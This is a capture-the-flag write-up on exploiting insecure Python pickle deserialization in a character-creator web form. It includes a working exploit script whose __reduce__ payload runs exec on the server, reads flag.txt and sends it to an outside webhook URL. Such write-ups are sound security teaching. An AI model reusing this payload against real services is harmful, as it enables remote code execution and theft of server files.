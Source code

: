 ### Discovery

* We are given url to the site with a simple form.
* You can add new fields and assign values to them.
* You can `Save` the character, which downloads a file.
* You can `Load` the character from previously download file.

### Exploitation
* Looking at the downloaded file content:

```
cat character.backup
�c__main__
Character
q)�q}q(XNameqXNameqXAgeqX18qub.% 
```

* The content immediately looks like `Pickle`.
* `Pickle` library is vulnerable, because it calls `__reduce__` method of the object.
* Also in the HTML of the site there is a comment, which suggests that flag is located in `flag.txt` file.
* Our exploit can look like this:

```
import pickle
from io import BytesIO

import requests

WEBHOOK_URL = "https://webhook.site/71a7dc1c-28cd-4b5b-8c3a-db6d8d41f880"
CHALLENGE_URL = "https://character-creator.semanthon.com/load-character"


payload = f"from urllib.request import urlopen;urlopen('{WEBHOOK_URL}/'+open('flag.txt').readline())"


class Exploit:
    def __reduce__(self):
        return (exec, (payload,) )


buffer = BytesIO()
pickle.dump(Exploit(), buffer)
buffer.seek(0)
requests.post(CHALLENGE_URL, files={"file": buffer})
```

> This code will send our pickled exploit object to the server, which will call our prepared `__reduce__` method. This method will execute a request to our webhook, with content of `flag.txt` file as a parameter.
We will get a flag on our webhook server

![Webhook result](./webhook.png)